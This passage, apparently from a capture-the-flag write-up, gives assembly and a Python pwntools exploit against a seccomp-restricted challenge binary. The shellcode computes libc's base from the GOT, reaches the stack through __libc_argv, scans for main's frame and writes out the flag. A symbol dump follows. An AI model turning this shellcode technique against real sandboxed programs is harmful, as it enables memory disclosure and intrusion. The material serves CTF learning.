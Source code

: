 ```assembly
mov rsi, [rax]; // it's a pointer to the flag actually
mov rax, 1;
mov rdi, 1;
mov rdx, 50;
syscall;
```

Finally, i exit with code 69 :)

```assembly
mov rax, 60;
mov rdi, 69;
syscall;
```

Here's the exploit in Python (without pwninit's boilerplate):

```python
io = conn()

payload = asm(f"""
// put libc's base into rax
mov rax, {exe.got['printf']};
mov rax, [rax];
sub rax, {libc.sym['printf']};

// pivot from libc to the stack via __libc_argv, put that stack addr into rax
add rax, {libc.sym['__libc_argv']};
mov rax, [rax];
mov rax, [rax];

// align rax to the stack
xor al, al; // al is the lower 4 bits of rax

// print the pwd
/*
	mov rsi, rax;
	mov rax, 1;
	mov rdi, 1;
	mov rdx, 40;
	syscall;
*/

// climb the stack until you find main's frame pointer
loop_body:
	mov rdx, [rax];
	cmp rdx, {exe.sym['main']};
	je loop_exit;
	sub rax, 8;
	jmp loop_body;

loop_exit:

// move onto the flag, via a constant offset
sub rax, 96;

// print it
mov rsi, [rax]; // it's a pointer to the flag actually
mov rax, 1;
mov rdi, 1;
mov rdx, 50;
syscall;

// exit with code 69
mov rax, 60;
```

[  0]:        0x7f03c9d06dc0    __libc_start_main
[  1]:                   0x0    __gmon_start__
[  2]:              0x403e10    UNKNOWN
[  3]:        0x7f03c9f642e0    UNKNOWN
[  4]:        0x7f03c9f3ec60    UNKNOWN
[  5]:        0x7f03c9f123d0    seccomp_init
[  6]:        0x7f03c9f137f0    seccomp_rule_add
[  7]:        0x7f03c9f12c40    seccomp_load
[  8]:        0x7f03c9dfbbc0    mmap
[  9]:        0x7f03c9d65060    setbuf
[ 10]:              0x401080    errx
[ 11]:        0x7f03c9d3d770    printf
[ 12]:        0x7f03c9df2100    close
[ 13]:        0x7f03c9df1980    read
[ 14]:        0x7f03c9df1690    open